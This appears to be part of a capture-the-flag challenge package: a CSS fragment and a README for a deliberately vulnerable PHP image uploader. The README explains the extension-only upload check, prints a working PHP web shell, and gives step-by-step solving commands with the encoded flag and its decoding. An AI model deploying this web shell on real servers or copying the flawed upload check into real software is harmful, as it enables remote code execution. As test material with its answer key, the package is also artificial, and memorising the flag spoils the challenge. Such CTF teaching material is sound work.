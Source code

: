 ```css
}
a {
    color: #2980b9;
    text-decoration: none;
}
a:hover {
    text-decoration: underline;
}
```

#### **7. `src/uploads/.gitkeep`**
- Empty file (no content needed).

#### **8. `README.md`**
```markdown
# ImageUploader CTF Challenge

## Category
Web Security, Basic Cryptography

## Description
"ImageUploader" is a PHP web app that allows image uploads. Exploit its vulnerability to find a hidden, Base64-encoded flag on the server, then decode it to reveal the secret.

## Deployment
1. Install Docker Desktop from [docker.com](https://www.docker.com/products/docker-desktop).
2. Clone the repo: `git clone https://github.com/your-username/ImageUploader.git`
3. Run: `cd ImageUploader && docker-compose up --build`
4. Visit: `http://localhost:8080`

## Bug Explanation
- **Vulnerability**: Insecure File Upload
- **Details**: The app only checks file extensions (.jpg, .jpeg, .png, .gif), allowing a PHP file (e.g., `shell.php.jpg`) to be uploaded and executed. The payload `system($_GET['cmd'])` enables RCE. The flag is Base64-encoded, requiring decoding after retrieval.

## Solving Instructions
1. Upload `shell.php.jpg` with:
   ```php
   <?php
   if (isset($_GET['cmd'])) {
       $cmd = $_GET['cmd'];
       echo "Command received: $cmd<br>";
       echo "Executing...<br>";
       system($cmd, $retval);
       echo "Return value: $retval<br>";
   } else {
       echo "No command provided.";
   }
   ?>
   ```
2. Access: `http://localhost:8080/uploads/shell.php.jpg`.
3. Explore: `?cmd=ls /var` (finds `hidden` directory).
4. Retrieve the encoded flag: `?cmd=cat /var/hidden/secret_flag.txt`.
   - Output: `eEFJX0NURntVcGxvYWRfRXhwbDF0M2R9`
5. Decode the flag:
   ```bash
   echo "eEFJX0NURntVcGxvYWRfRXhwbDF0M2R9" | base64 -d
   ```
   - On Windows PowerShell:
     ```powershell
     [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("eEFJX0NURntVcGxvYWRfRXhwbDF0M2R9"))
     ```
